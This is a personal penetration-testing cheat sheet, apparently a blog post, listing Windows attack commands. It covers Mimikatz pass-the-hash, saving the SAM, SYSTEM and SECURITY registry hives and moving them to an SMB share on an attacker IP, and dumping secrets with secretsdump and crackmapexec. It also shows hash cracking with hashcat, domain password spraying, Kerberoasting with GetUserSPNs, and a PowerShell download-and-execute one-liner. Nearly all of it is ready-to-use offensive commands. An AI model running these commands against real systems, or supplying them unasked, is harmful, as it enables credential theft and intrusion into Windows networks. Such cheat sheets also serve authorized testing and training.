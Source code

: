 ```yaml
---
layout: post
title: Commands & Hacks - Windows
toc: true
subtitle: Windows
comments: false
---
```


<b>Windows Authentication Tricks:</b> <br>

Windows Authentication Process Flowchart:

![auth](/pictures/windows/auth_process.png)

RDP via xfreerdp:

```
xfreerdp +clipboard /u:<user> /v:<target-IP> /cert-ignore
```

WinRM Auth via Evil-winrm:
```
evil-winrm -i <target-IP> -u <user> -p <pass>
```

Mimikatz Options:
```
/user
/rc4 - hash
/NTLM - hash
/domain - domain that the user to impersonate with belongs to i.e. localhost, DC01
/run - program running in user's context
```

Pass the Hash via Mimikatz cmd:
```
mimikatz.exe privilege::debug "sekurlsa::pth /user:<user> /domain DC01 /rc4:<hash> /domain:<domainname> /run:cmd.exe"

pushd \\DC01\<user>
 ```

<b>Windows Hashes & Passwords</b> <br>

Non-domain joined windows system, grab the 3 SAM registry hives.
```
hklm\sam - Local User Account Passwords Hashes
hklm\system - System Bootkey to decrypt SAM database
hklm\security - Domain Accounts' cached credentials
```

SAM backup command:
```
C:\WINDOWS\system32> reg.exe save hklm\sam C:\sam.save
C:\WINDOWS\system32> reg.exe save hklm\system C:\system.save
C:\WINDOWS\system32> reg.exe save hklm\security C:\security.save
```
Create Share server with smbserver.py to dump SAM:
```
sudo python3 /usr/bin/tools/impacket_smbserver.py -smb2support CompData /home/kali/Documents/
```
Move hive copies to Share server:
```
move sam.save \\<attacker_ip>\CompData
move security.save \\<attacker_ip>\CompData
move system.save \\<attacker_ip>\CompData
```
Dump Command:
```
python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -sam sam.save -security security.save -system system.save LOCAL
```

Cracking NT Hashes via hashcat:
```
sudo hashcat -m 1000 hashestocrack.txt /usr/share/wordlists/rockyou.txt
```
Cracking NTLMv2 Hash with hashcat:
```
hashcat -m 5600 forend_ntlmv2 /usr/share/wordlists/rockyou.txt
```

Remote LSA Secrets Dumping via crackmapexec:
```
crackmapexec smb <target_ip> --local-auth -u <user> -p <pass> --lsa
```
Remote SAM Secrets Dumping via crackmapexec:
```
crackmapexec smb <target_ip> --local-auth -u <user> -p <pass> --sam
```
Enumerate Users with Kerbrute:
```
kerbrute userenum -d <domain_name> --dc <dc_ip> jsmith.txt -o valid_ad_user_accounts
```
Base64 encoding in Powershell for File Transfer:
```
[Convert]::ToBase64String((Get-Content -path "C:\..\file.txt" -Encoding byte)) | clip
```
Using DomainPasswordSpray.ps1:
```
Import-Module .\DomainPasswordSpray.ps1
Invoke-DomainPasswordSpray -Password Welcome1 -OutFile spray_success -ErrorAction SilentlyContinue
```
Check Defender status:
```
Get-MpComputerStatus
```
Discover Modules:
```
Get-Module
Import-Module ActiveDirectory
Get-ADDomain
Get-ADUser -Filter {ServicePrincipalName -ne "$null"} -Properties ServicePrincipalName
Get-ADTrust -Filter *
Get-ADGroup -Filter * | select name
Get-ADGroup -Identity "<name>"
Get-ADGroupMember -Identity "<name>"
```

Post Exploit:
```
whoami /priv
```
If SeRestorePrivilege listed, run EnableSeRestorePrivilege.ps1 to have write access to C:\Windows\System32.

If SeImpersonatePrivilege, use juicy potato

Connect to win-host with psexec.py leveraging local admin user credentials:
```
psexec.py <domain.local>/<user>:'<password>'@<host_ip>
```

Net Commands:

```
net group "Domain Admins" /domain
net group "Domain Controllers" /domain
net localgroup
net localgroup Administrators
net share
net view
```
Powershell Download from web/local web server:
```
powershell -nop -c "iex(New-Object Net.WebClient).DownloadString('URL to download the file from'); <follow-on commands>"
```

Powershell history:
```
Get-Content C:\Users\<USERNAME>\AppData\Roaming\Microsoft\Windows\Powershell\PSReadline\ConsoleHost_history.txt
```

List all SPN Accounts with GetUserSPNs.py:
```
GetUserSPNS.py -dc-ip <dc> <domainname>.LOCAL/<username>
```
Get TGS Ticket with GetUserSPNs.py:
```
GetUserSPNs.py -dc-ip <dc> <domainname.LOCAL/<username> -request-user <user> -outputfile <filename>
```


